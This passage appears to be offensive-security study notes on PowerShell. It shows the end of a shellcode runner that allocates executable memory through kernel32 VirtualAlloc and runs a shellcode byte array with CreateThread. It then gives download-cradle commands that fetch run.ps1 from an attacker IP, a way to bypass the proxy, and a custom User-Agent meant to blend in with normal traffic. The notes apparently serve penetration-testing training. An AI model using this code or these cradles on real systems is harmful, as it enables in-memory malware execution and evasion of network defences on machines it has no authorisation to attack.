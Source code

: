 ```pwsh
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

## PowerShell Proxy-Aware Communication

View the proxy settings:

```pwsh
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://192.168.119.120/run.ps1")
```

Remove proxy settings:

```pwsh
$wc = new-object system.net.WebClient
$wc.proxy = $null
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

In some environments, network communications not going through the proxy will get blocked at an edge firewall.

## Fiddling With The User-Agent

The `Net.WebClient` PowerShell download cradle does not have a default `User-Agent` set => The session will stand out from other legitimate traffic.

Customize `User-Agent`:

```pwsh
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "This is my agent, there is no one like it...")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```
